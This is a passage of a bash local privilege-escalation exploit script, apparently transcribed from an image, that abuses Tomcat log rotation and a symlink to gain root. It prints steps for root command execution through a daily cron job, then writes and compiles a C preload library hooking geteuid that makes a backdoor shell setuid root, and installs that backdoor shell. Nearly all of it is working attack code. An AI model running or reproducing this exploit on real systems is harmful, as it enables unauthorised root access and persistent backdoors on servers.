         fi
        echo -e  "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
        echo -e  "\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`"
        echo -ne "\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot"
        echo -ne "\n    you'll be able to add arbitrary commands to the file which will get executed with root privileges"
        echo -ne "\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can't wait ;)
     \n\n"
        exit 0
    fi

    # [ Active exploitation ]

    trap ctrl_c INT
    # Compile privesc preload library
    echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
    cat <<_solibeof_>$PRIVESCSRC
    #define _GNU_SOURCE
    #include <stdio.h>
    #include <sys/stat.h>
    #include <unistd.h>
    #include <dlfcn.h>
    uid_t geteuid(void) {
        static uid_t  (*old_geteuid)();
        old_geteuid = dlsym(RTLD_NEXT, "geteuid");
        if ( old_geteuid() == 0 ) {
            chown("$BACKDOORPATH", 0, 0);
            chmod("$BACKDOORPATH", 04777);
            unlink("/etc/ld.so.preload");
        }
        return old_geteuid();
    }
    _solibeof_
    gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
        cleanexit 2;
    fi

    # Prepare backdoor shell
    cp $BACKDOORSH $BACKDOORPATH
    echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"

    # Safety check
    if [ -f /etc/ld.so.preload ]; then
        echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
        cleanexit 2
    fi
